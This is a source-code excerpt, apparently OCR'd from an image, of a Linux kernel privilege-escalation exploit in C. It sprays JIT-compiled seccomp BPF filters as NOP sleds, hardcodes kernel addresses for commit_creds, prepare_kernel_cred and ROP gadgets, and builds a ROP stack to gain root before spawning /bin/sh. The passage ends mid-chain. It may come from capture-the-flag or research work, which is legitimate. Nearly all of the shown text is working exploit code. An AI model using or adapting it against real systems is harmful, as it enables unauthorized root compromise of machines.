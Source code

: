 ```c
 * entry_SYSCALL_64
 * do_syscall_64
 * __x64_sys_prctl
 * prctl_set_seccomp
 * do_seccomp
 * seccomp_set_mode_filter
 * seccomp_prepare_filter
 * bpf_prog_create_from_user
 * bpf_prepare_filter
 * bpf_jit_compile <--- will be jitted, and bpf_prog->bpf_func will point to jitted code
 * and seccomp_filter->prog point to bpf_prog
 */

#define JIT 0xffffffffc0000800
#define NOP (struct sock_filter) BPF_STMT(BPF_LD | BPF_W, 0x1eb9090) // nop ; nop ; jmp .+3
#define RET (struct sock_filter) BPF_STMT(BPF_RET, SECCOMP_RET_ALLOW) // return
#define SC(sc) (struct sock_filter) BPF_STMT(BPF_LD | BPF_W, sc)

unsigned long commit_creds = 0xffffffff81073ad0;
unsigned long prepare_kernel_cred = 0xffffffff81073c60;
unsigned long swapgs_restore_regs_and_return_to_usermode = 0xffffffff81800e10;
unsigned long rop_pop_rdi_ret = 0xffffffff81138833;
unsigned long rop_pop_rax_ret = 0xffffffff81024d31;
unsigned long rop_call_rax_ret = 0xffffffff81febfd3;

size_t user_ss, user_cs, user_rflags, user_sp;
void save_status() {
    __asm__("mov user_ss, ss;"
            "mov user_cs, cs;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("[*] Status has been saved.\n");
}
void getshell()
{
    puts("[*] win");
    system("/bin/sh");
}

int main()
{
    // BPF_ABS: fixed offset
    // BPF_K:   const

    struct sock_filter filter[0x200];
    unsigned long *stack;
    int i = 0, j = 0x1000 / 8;

    // spray
    for (; i < 0x180; i++)
        filter[i] = NOP;
    // create ROP stack
    stack = mmap((unsigned long *) ((1 << 16) - 0x1000), 0x2000, PROT_READ | PROT_WRITE | PROT_EXEC,
                MAP_POPULATE | MAP_ANONYMOUS | MAP_SHARED | MAP_FIXED, -1, 0);
    save_status();

    stack[0] = 0xdeadbeef;
    // prepare_kernel_cred(0)
    stack[j++] = prepare_kernel_cred;
    // commit_creds(output)
```